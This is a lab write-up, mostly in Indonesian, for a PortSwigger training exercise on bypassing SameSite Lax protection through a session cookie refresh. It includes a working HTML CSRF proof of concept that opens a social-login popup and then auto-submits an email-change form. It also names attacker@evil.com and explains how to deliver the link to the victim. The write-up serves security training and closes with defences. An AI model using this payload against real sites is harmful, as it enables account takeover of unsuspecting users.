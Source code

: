 # SameSite Lax Bypass via Cookie Refresh

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: **wiener:peter**

**Note:** The default SameSite restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

**Hint:** You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

Browsers block popups from being opened unless they are triggered by a manual user interaction, such as a click. The victim user will click on any page you send them to, so you can create popups using a global event handler as follows:

```html
<script>
    window.onclick = () => {
        window.open('about:blank')
    }
</script>
```

---------------------------------------------

### References:

- [PortSwigger - Bypassing SameSite Restrictions](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions)

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/1.png)

---------------------------------------------

## Pemahaman Kerentanan

### **CSRF (Cross-Site Request Forgery):**
Serangan ini memanfaatkan fakta bahwa aplikasi web tidak memverifikasi asal permintaan yang masuk, sehingga penyerang dapat membuat pengguna yang terautentikasi melakukan tindakan yang tidak diinginkan tanpa sepengetahuan mereka.

### **Kerentanan pada Fungsi Perubahan Email:**
- **Tidak Ada Token CSRF:** Formulir perubahan email tidak menggunakan token CSRF untuk memverifikasi keaslian permintaan.
- **SameSite Cookie Attribute Tidak Ditetapkan:** Cookie sesi tidak memiliki atribut `SameSite`, yang berarti browser (dalam kasus ini, Chrome) akan menerapkan kebijakan default `Lax`. Namun, Chrome memberikan pengecualian untuk permintaan POST tingkat atas dalam 120 detik pertama setelah sesi dibuat, memungkinkan serangan CSRF berhasil dalam jangka waktu tersebut.

## Eksploitasi

### **1. Autentikasi sebagai Pengguna**

#### **a. Login ke Aplikasi:**
- Gunakan kredensial yang diberikan (`wiener:peter`) untuk masuk ke aplikasi menggunakan login berbasis OAuth melalui akun media sosial.

#### **b. Pahami Sesi:**
- Setelah login, aplikasi akan menetapkan cookie sesi tanpa atribut `SameSite`, memungkinkan potensi serangan CSRF.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/2.png)

### **2. Membangun Payload CSRF**

#### **a. Membuat Formulir CSRF:**
- Buat formulir HTML yang melakukan permintaan POST ke endpoint `/my-account/change-email` dengan parameter `email` diisi dengan email penyerang (`attacker@evil.com`).

#### **b. Menghindari Pemblokiran Popup oleh Browser:**
- Untuk memastikan cookie sesi diperbarui dalam waktu 120 detik, gunakan metode `window.open` yang dipicu oleh interaksi pengguna (misalnya, klik) agar tidak diblokir oleh browser.
- Implementasikan `window.onclick` untuk membuka tab baru yang menginisialisasi ulang sesi.

#### **c. Mengatur Waktu untuk Mengirimkan Permintaan CSRF:**
- Setelah membuka tab baru untuk memperbarui sesi, gunakan `setTimeout` untuk mengirimkan formulir CSRF setelah beberapa detik (misalnya, 10 detik) memastikan bahwa sesi telah diperbarui.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/3.png)
![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/4.png)

### **3. Hosting dan Pengujian Payload**

#### **a. Hosting Payload:**
- Unggah payload HTML yang telah dibuat ke server eksploitasi yang disediakan.

#### **b. Mengujicoba Payload:**
- Buka halaman eksploitasi, klik di area yang ditentukan untuk memicu `window.open`, yang akan membuka tab baru dan memperbarui sesi.
- Setelah sesi diperbarui, formulir CSRF akan secara otomatis dikirimkan setelah waktu yang ditentukan, mengubah email korban menjadi `attacker@evil.com`.


### **4. Menyerahkan Payload ke Korban**

- **Mengirimkan Link Exploit:**
  - Kirimkan link halaman eksploitasi kepada korban sehingga ketika mereka mengaksesnya dan berinteraksi (klik), serangan CSRF akan dieksekusi.

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/6.png)

## Proof of Concept (PoC)

Berikut adalah contoh PoC yang telah dimodifikasi untuk melakukan serangan CSRF dengan membuka `/social-login`, menunggu 10 detik, dan kemudian mengirimkan formulir perubahan email:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a72005004831ac38087729700fb0018.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test77&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
        window.onclick = () => {
            window.open('https://0a72005004831ac38087729700fb0018.web-security-academy.net/social-login');
            setTimeout(submit, 10000);
            function submit(){			
                history.pushState('', '', '/');
                document.forms[0].submit();    	
            }
        }      
    </script>
  </body>
</html>
```

![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/7.png)
![img](images/SameSite%20Lax%20bypass%20via%20cookie%20refresh/8.png)

### **Penjelasan PoC:**
- **Formulir CSRF:** Mengirimkan permintaan POST ke endpoint perubahan email dengan nilai email yang diinginkan.
- **Script:** Ketika pengguna mengklik di halaman, `window.open` membuka tab baru ke `/social-login`, yang akan memperbarui cookie sesi. Setelah 10 detik, formulir CSRF secara otomatis dikirimkan untuk mengubah email korban.

## Poin Penting yang Perlu Diperhatikan

- **Batas Waktu Serangan:** Karena Chrome memberikan jendela waktu 120 detik untuk permintaan POST tingkat atas tanpa atribut `SameSite`, pastikan serangan dilakukan dalam jangka waktu ini.
  
- **Interaksi Pengguna Diperlukan:** Untuk menghindari pemblokiran popup oleh browser, pastikan bahwa `window.open` dipicu oleh interaksi pengguna seperti klik.
  
- **Keamanan Atribut Cookie:** Dalam skenario nyata, menambahkan atribut `SameSite=Strict` atau `SameSite=Lax` pada cookie sesi dapat membantu mencegah serangan CSRF. Selain itu, menggunakan token CSRF yang unik untuk setiap sesi atau permintaan juga merupakan praktik terbaik.

## Kesimpulan

Lab ini memberikan pemahaman yang baik tentang bagaimana serangan CSRF dapat dieksploitasi ketika aplikasi web tidak menerapkan perlindungan yang memadai seperti atribut `SameSite` pada cookie atau penggunaan token CSRF. Dengan mengikuti langkah-langkah di atas, Anda dapat berhasil melakukan serangan CSRF pada fungsi perubahan email yang rentan dalam lingkungan laboratorium ini.

